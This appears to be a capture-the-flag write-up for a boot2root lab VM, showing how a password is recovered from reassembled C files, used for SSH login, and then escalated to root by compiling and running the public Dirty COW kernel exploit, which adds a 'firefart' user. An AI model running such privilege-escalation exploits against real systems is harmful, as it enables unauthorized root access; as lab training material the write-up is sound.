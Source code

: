 -------------------------------------------------------------------------------

# The following method describes a Race Condition Privilege Escalation

-------------------------------------------------------------------------------

## First we need to find the IP address of the VM

* Refer to writeup1


## login
* Now we need to get access to the file system of the ISO.
* Among other files, this ISO contains the following one : "filesystem.squashfs".
* This is actually the whole compressed file system.
* To decompress and extract it we can use "squashfs".

```
unsquashfs -f -d /path/to/destination/ /path/to/source/filesystem.squashfs
```

* Directory : /home/lmezard/
-------------------------------------------------------------------------------

* In /home/lmezard/ we find 2 files.

```
cd /home/lmezard/ ; ls
fun  README
```
* The fun file is actually an archive...

```
file fun
fun: POSIX tar archive (GNU)
```

* Decompressing it produces a new directory called "ft_fun".

```
tar xvf fun ; ls
ft_fun  fun  README
```

* "ft_fun" directory contains a fuck tone of files...
* We notice that each one of them is written in C language and its last line is tagged with a comment like so
//file3
//file235
...

* We can then make a little PHP script to read them and recompose the original C file, compile the file and execute it.

```
php pack.php && gcc main.c && ./a.out
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
```

* If we sha256 this password we obtain :

```330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4```

* We can now connect with ssh as "laurie".



## Race Condition Privilege Escalation
* YES!!!! we are on the serveur ! know we need to get information about the os
* kernel verions : ```uname -r``` => 3.2.0-91-generic-pae
* Distrubition name and verisons ```cat /etc/*-release``` => Ubuntu, 12.04

* After having information on what we where working on we did some research on [EXPLOIT DATABASE](https://www.exploit-db.com)
* We find the "Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)"
* go to https://www.exploit-db.com/exploits/40839/ and Copy the script
* ```gcc -pthread dirty.c -o dirty -lcrypt && ./dirty```
* add a password, example: 12345
* ```su firefart``` use your password

# GG Your root !
